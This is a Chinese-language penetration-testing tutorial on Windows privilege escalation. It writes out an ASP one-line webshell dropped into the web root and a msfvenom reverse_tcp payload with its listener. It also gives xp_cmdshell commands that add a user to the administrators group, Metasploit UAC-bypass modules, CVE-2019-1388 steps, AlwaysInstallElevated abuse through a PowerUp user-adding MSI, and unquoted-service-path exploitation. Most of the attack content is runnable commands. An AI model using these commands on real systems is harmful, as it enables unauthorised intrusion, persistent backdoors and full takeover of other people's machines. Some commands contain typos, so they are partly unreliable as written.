​​

访问页面报错获得web路径c:\inetpub\wwwroot\info.aspx.cs

​

尝试写入一句话木马,蚁剑连接获取账密

```bash
echo "<%eval request("777")%>" >c:\inetpub\wwwroot\test.asp
```

​

尝试xp_cmdshell提权

	查看是否开启xp_cmdshell，返回值为1开启

```bash
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
```

​​

‍

	通过 xp_cmdshell 执行系统命令，査看为system权限，并将用户加入管理组提权成功

```bash
exec xp_cmdshell 'whoami'
exec xp_cmdshell "net localgroup administrators"
```

​​​​

###### **如果xp_cmdshell打不开--三种情况**

* ​`xp_cmdshell`​​ 被禁用
* 权限不足
* 版本不支持或被修改

## Bypass UAC

**UAC作用+绕过**

> UAC Windows Vista以后版本引入的一种安全机制
>
> 通过UAC，应用程序和任务可以在非管理员帐户的安全上下文中运行，除非管理员特别授予管理员级别的系统访问权限
>
> UAC 可以阻止未经授权的应用程序自动进行安装，并防止无意中更改系统设置
>
> ‍
>
> 1.进程已经拥有管理权限控制 2.进程被用户允许通过管理员权限运行
>
> ​​

##### UAC四种设置要求

1. 始终通知--最严格

    当有程序需要使用高级别的权限时都会提示本地用户
2. 仅在应用尝试更改我的计算机时通知我

    UAC默认设置  
    当第三方程序要使用高级别的权限时，会提示本地用户
3. 仅当应用尝试更改我的计算机时通知我

    与上一条设置要求相同，但是在提示用户时不降低桌面亮度
4. 从不提示

    当用户为系统管理员时，所有程序都会以最高权限运行

##### 触发UAC

​​

UAC需要授权的动作包括

配置Windows Update、增加或删除用户账户、改变用户的账户类型、改变UAC设置、用户帐户控制、安装ActiveX、安装或移除程序、安装设备驱动程序、设置家长控制、将文件移动或复制到Program Files或Windows目录、查看其他用户文件夹

​​

#### 美少妇的bypassuac模块

前提：在获取目标主机meterpreter shell且权限为普通用户权限的前提下提权(getsystem提权失败就可以考虑使用bypass去绕过)

##### MSF模块

```bash
exploit/windows/local/bypassuac                       //模块将通过进程注入，利用受信任的发布者证书绕过Windows UAC，它将为我们生成另一个关闭UAC的shell
exploit/windows/local/bypassuac_injection (内存注入)   //模块直接运行在内存的反射DLL中，不会接触目标机的硬盘，从而降低了被杀毒软件检测出来的概率
exploit/windows/local/bypassuac_eventvwr              //模块通过在当前用户配置单元下劫持注册表中的特殊键，在启动Windows fodhelper.exe应用程序时调用的自定义命令来绕过Windows 10 UAC
```

##### 步骤

进入msf，生成payload

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.124.128  lport=12345 -f exe >s.exe  
```

​​

将文件上传到目标机中，远程运行文件

​​

使用multi/handler进行监听

```bash
set lhost 192.168.61.17
set lport 12345
set payload windows/meterpreter/reverse_tcp  
run
```

​​

‍

```bash
getuid  //查看当前用户权限
getsystem   //提权
```

​​

```bash
backgroud  //退出会话，这里是会话7
```

​​

```bash
use exploit/windows/local/bypassuac
show options
set session 7
set payload windows/meterpreter/reverse_tcp
```

​​

‍

​​

‍

#### 美少妇的RunAs模块

> **缺点：这个会出现弹窗--表示有人在黑你**
>
> 使用 exploit/windows/local/ask 模块，创建一个可执行文件  
> 目标机器会运行一个发起提升权限请求的程序，提示用户是否要继续运行  
> 如果用户选择继续运行程序，就会返回一个高权限的meterpreter shell

##### 步骤

使用exploit/windows/local/ask 模块

```bash
use exploit/windows/local/ask
set session 7
run
```

​​

​​

​​

‍

‍

#### 漏洞CVE-2019-1388实现bypass UAC  --逻辑漏洞

> **搜狗输入法漏洞也有这个逻辑漏洞哦**
>
> CVE-2019-1388 是Windows证书对话框特权提升漏洞
>
> 补丁号：KB4525235 KB4525233
>
> **漏洞原理：**
>
> 此漏洞是因为UAC机制的设定不严导致的，默认情况下Windows会在一个单独的桌面(Secure Desktop上显示所有的 UAC提示。这些提示是由 consent.exe 的可执行文件生成的，该文件以​ NT AUTHORITYSYSTEM身份运行，并且有System的完整性水平
>
> 	如果在运行一个可执行文件的时候我们触发了 UAC，在点击「展示证书发行者的详细信息」这个链接之后，可以看到证书里的​ lssued by ​字段，这个字段对应的值就是 OID。证书会解析 OID ​的值，可能显示为超链接，但是**Windows 忘记禁用了 OID 处的超链接，这就给了我们提权的可能**

##### 影响系统

Microsoft Windows Server 2019  
Microsoft Windows Server 2016  
Microsoft Windows Server 2012  
Microsoft Windows Server 2008 R2  
Microsoft Windows Server 2008  
Microsoft Windows RT 8.1  
Microsoft Windows 8.1  
Microsoft Windows 7

‍

##### 步骤

使用kali远程连接

rdesktop 192.168.100.242

本地权限

​​

```bash
systeminfo>snowming.txt&(for %i in (KB4525235 KB4525233) do @type snowming.txt|@find /i "%i"|| @echo no this padding: %i)&del /f /g /a snowming.txt
```

​​

将HHUDP.exe文件上传到目标主机上

​​

点击显示详细信息

​​

后面会弹出页面，然后将点击页面另存为

​​

​​

不保存，在此搜索框中去搜索"C:\Windows\System32\cmd.exe"

​​

‍

## Windows错误系统配置提权

##### 系统服务权限配置错误有如下两种可能:

1.**服务未启动**:攻击者可以使用任意服务替换原来的服务，然后重启服务

2.**服务正在运行且无法被终止**:这种情况符合绝大多数的漏洞利用场景，攻击者通常会利用dl劫持技术并尝试重启服务来提权

##### 注册表AlwaysInstallElevated

注册表键AlwaysInstalElevated是一个策略设置项。windows允许低权限用户以System权限运行安装文件。如果启用此策略设置项，那么任何权限用户都能以NT AUTHORITYSYSTEM杈限来安装恶意的msi(Microsoft Windows Installer文件。

###### 步骤

1.运行gpedit.msc打开组策略编辑器

​

2.启用：永远以最高特权进行安装

	注册表

​​

	命令行

```bash
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\installer /v AlwaysinstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\installer /v AlwaysinstallElevated /t REG DWORD /d 1
```

3.启用AlwavslnstalElevated后，可以通过命令行调用msiexec安装msi文件，msi文件内包含要执行的Payload，Payload将以System权限执行，设置好了后换个普通用户登录，测试是否启用AlwaysInstallElevated(实验前安装Powerup工具)，返True，说明己启用。

```bash
powershell.exe -exec bypass -Command "& {lmport-Module .\PowerUp.ps1;Get-RegistryAlwaysinstallElevated}"
```

4.导出msi文件，当前目录生成userAdd.msi（利用了 powerup生成的用户添加程序）

```bash
powershell.exe -exec bypass -Command "& {lmport-Module .\PowerUp.ps1;Write-UserAddMSI}"
```

​​

5.命令行执行(低权限用户):msiexec /q /i UserAdd.msi

/i参数用来表示安装操作   /a参数用来隐藏安装界面

```bash
msiexec/q /i UserAdd.msi
```

​​

​​

##### Trusted Service Paths(可信任服务路径)

> 	windows服务通常都是以System权限运行的，所以系统在解析服务的二进制文件对应的文件路径中空格的时候也会以系统权限进行解析，能利用这一特性，就有机会进行权限提升。
>
> 	例如，有如下的文件路径:C:\Program FileslSome FolderService.exe  
> 	对于上面文件路径中的每一个空格，windows都会尝试寻找并执行名字与空格前的名字向匹配的程序。操作系统会对  
> 文件路径中空格的所有可能进行尝试，直到找到一个匹配的程序。以上面的例子为例，windows会依次尝试确定和执行下  
> 面的程序:  
> 	C:\Program.exe  
> 	C:\Program Files\Some.exe  
> 	C:\Program Files\Some FolderService.exe  
> 	所以如果能够上传一个适当命名的恶意可执行程序在受影响的目录，服务一旦重启，大多数情况下恶意程序就会以system权限运行。

###### 步骤

1.已获取低权限meterpreter shell ，利用trustedService Paths漏洞来尝试实现权限提升，先检测是否存在

	如果一个服务的可执行文件的路径没有用双引号封闭，并且包含空格--trustedService Paths漏洞

使用下列wmic查询命令来列举受害者机器上所有的没有加引号的服务路径

```bash
wmic service get name,displayname,pathname,startmode|findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr/i /v """
```

​​

2.以上査出的服务对应的二进制文件路径没有引号包含起来，并且路径中包含空格。是存在该漏洞的，但在上传可执行文件进去之前，需要确定对目标文件夹是否有写入权限，使用<u>Windows内建的一个工具</u>​<u>icacls</u>，依次检查“C:\Program Files”、"C:\Program Files\Common Files"、“C:\Program Files\Common Files\microsoftshared”等目录的权限:左图权限不足，右图“Everyone”用户对这个文件有完全控制权，就是说所有用户都具有全部权限修改这个文件夹。  

参数说明:“M”表示修改，“F”代表完全控制，“CI”代表从属容器将继承访问控制项，“O1”代表从属文件将继承访问控制项。这意味着对该目录有读，写，删除其下的文件，删除该目录下的子目录的权限。

​​

3.确认存在后，结合msf使用trusted_service_path模块，设置相关参数，攻击回去最高权限

​​
